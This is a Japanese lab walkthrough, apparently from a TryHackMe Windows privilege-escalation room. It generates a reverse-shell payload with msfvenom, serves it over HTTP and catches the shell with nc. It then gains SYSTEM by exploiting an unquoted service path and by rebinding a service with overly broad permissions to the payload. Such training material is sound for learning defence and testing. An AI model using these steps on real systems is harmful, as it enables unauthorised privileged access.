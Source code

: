 - 攻撃側マシンで実行。

```shell
#ペイロード作成
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.x.x.x LPORT=4445 -f exe-service -o rev-svc.exe

# ターゲットマシン側からダウンロードできるようにHTTPサーバを起動
$ python -m http.server

# ncで待ち受ける
$ nc -lvnp 4445
c:\Windows\System32>    # ターゲットマシンでサービスが再起動されると表示される
```

2. 以下のとおり確認。
   
- ターゲットマシンで実行。

```cmd
sc qc "disk sorter enterprise"   # BINARY_PATH_NAMEのプログラムを確認。
# C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe となっており引用符で囲まれてない

# ペイロードの名前をDisk.exeに変更し、C:\MyProgram配下に格納
# ペイロードは質問1で作成したものを使用。
move C:\Users\thm-unpriv\rev-svc.exe C:\MyPrograms\Disk.exe

# 攻撃側マシンで ncで待受け状態にしてからサービス再起動
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```

- 攻撃側マシンで実行。

```shell
# ペイロード作成とターゲットマシンへのファイルダウンロードは質問1と同じ手順
# ncで待ち受ける
$ nc -lvnp 4445
c:\Windows\System32>    # ターゲットマシンでサービスが再起動されると表示される
```

3. 以下のとおり確認。

- ターゲットマシンで実行。

```cmd
accesschk64.exe -qlc thmservice
～(省略)～
[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS                 
        # ↑ BUILTIN\Usersに SERVICE_ALL_ACCESS権限がある

# ペイロードの実行アクセス権を変更しておく
# ペイロードは質問1で作成したものを使用
icacls C:\Users\thm-unpriv\rev-svc.exe /grant Everyone:F

# thmserviceに関連付ける実行可能ファイルとアカウントを変更する
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc.exe" obj= LocalSystem

# 攻撃側マシンの ncを待受け状態にしてからサービス再起動
sc stop THMService
sc start THMService
```
